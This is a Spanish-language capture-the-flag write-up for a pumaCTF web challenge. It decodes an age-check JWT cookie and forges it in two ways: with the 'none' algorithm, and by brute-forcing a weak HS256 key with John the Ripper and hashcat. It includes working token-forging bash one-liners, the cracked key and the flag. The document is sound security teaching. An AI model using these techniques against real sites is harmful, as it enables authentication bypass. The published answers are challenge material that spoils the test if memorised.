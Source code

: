 <h1 align="center">
    🍺 JaggerWhiskyTequila 🍺
</h1>

## 💭 Concepto


Cuando se accede a la web, se pueden observar distintos tipos de bebida. Al intentar comprar una, nos redirige a la URL `/compra` donde nos aparece el siguiente mensaje:

> No tienes +18 años

Si comprobamos las cookies, encontraremos una con el nombre de `cliente` y el siguiente valor:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlZGFkIjoxN30.Lq26ql5McZjRfR-2zsTv1Z9UbygMvbbaXP53-QfXO-s
```

Con un poco de práctica, es posible reconocer la estructura de la misma. Las dos primeras letras (`ey`) indican que el comienzo de cadena es el caracter `{` seguido de un espacio o unas comillas. Además, la cookie consta de tres partes delimitadas por puntos.

Por lo tanto, se puede deducir que la solución estará basada en vulnerabilidades conocidas de `JWT`.

> Una pista a mayores es el nombre del reto: **J**agger**W**hisky**T**equila (**JWT**)

## 📜 Teoría

Lo primero de todo es decodificar la cookie. Para ello podemos hacer uso de herramientas online, como [JWT.io](https://jwt.io/), o segmentar la cadena según el delimitador (en este caso, un punto), dado que JWT sigue el siguiente formato:

<h1 align="center">
    <img alt="JWT Format" src="../.img/jwt-format.webp" />
</h1>


En el **Header** se especifica el tipo de formato que se utiliza, así como el algoritmo a usar para cifrar/descifrar los datos.

En el caso del reto, la información obtenida es la siguiente:

```sh
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
# {"typ": "JWT","alg": "HS256"} 
```

> `HS256` indica que el **Payload** está cifrado usando una clave

Si hacemos lo mismo con el segundo fragmento, podemos obtener la información guardada actualmente en la cookie:

```sh
echo -n "eyJlZGFkIjoxN30" | base64 -d
# {"edad":17}
```

Como vimos en la página de `/compra`, el mensaje nos indicaba que no teníamos más de 18 años. Ya sólo queda buscar la manera de modificar el valor de la cookie para especificar una edad mayor.

## 💣 Explotación

Este reto se puede resolver de varias maneras.

---

```yml
Vulnerabilidad: Algoritmo None
```

Aunque hoy en día ya no es habitual encontrarse con este fallo, hay veces que las páginas permiten el uso del algoritmo `none` o no comprueban la **Signature**.


En el primer caso y con el fin de modificar el **Payload** satisfactoriamente, bastaría con cambiar el valor de `"alg": "HS256"` a `"alg": "none"`.

En el segundo escenario, se puede optar por borrar la **Signature**, aunque no sería necesario.

Podemos generar nuestro nuevo `JWT` usando el siguiente script de **bash**:

```sh
echo -n $(echo -n '{"typ":"JWT","alg":"none"}' | base64).$(echo -n '{"edad":18}' | base64). | tr -d "="
# eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJlZGFkIjoxOH0.
```

Ahora sólo queda reemplazarlo en la página web y recargar la página para obtener la `flag`.

---

```yml
Vulnerabilidad: Clave HS256 débil
```

Es posible que la clave usada para firmar el **Payload** no sea lo suficientemente fuerte, por lo que sería viable realizar un ataque de fuerza bruta para averiguarla.

La forma estándar de hacerlo es con programas como `JohnTheRipper` o `HashCat`.

Para ello, debemos guardar el valor de la cookie en un fichero:

```sh
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlZGFkIjoxN30.Lq26ql5McZjRfR-2zsTv1Z9UbygMvbbaXP53-QfXO-s" > jwt.hash
```

Una vez guardado, podemos usar diccionarios como `rockyou.txt` para realizar el ataque:

```sh
# Usando JohnTheRipper
john jwt.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256

# Usando HashCat
hashcat -m 16500 jwt.hash /usr/share/wordlists/rockyou.txt
```

En ambos casos, nos dará la clave usada para firmar los datos: `alcoholic`.

Para editar el contenido, podemos hacer uso de herramientas online (como [JWT.io](https://jwt.io/)) o generarla mediante este script en `bash`:

```sh
token=`echo -n $(echo -n '{"typ":"JWT","alg":"HS256"}' | base64).$(echo -n '{"edad":18}' | base64) | tr -d "=" | tr '/+' '_-'`; sign=$(echo -n ${token} | openssl dgst -sha256 -hmac "alcoholic" -binary | base64 | tr -d "=" | tr '/+' '_-'); echo -n "${token}.${sign}"

# eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlZGFkIjoxOH0.E17PNNNY9mUUNT4VJdKMlMilOP0hZc5ihlMBdar6cCM
```

Igual que antes, sólo queda reemplazar el nuevo token en la página y recargar para obtener la `flag`.

## 🏁 Flag

```
pumaCTF{JwT_4lc0h0l_n_h4nG0v3R}
```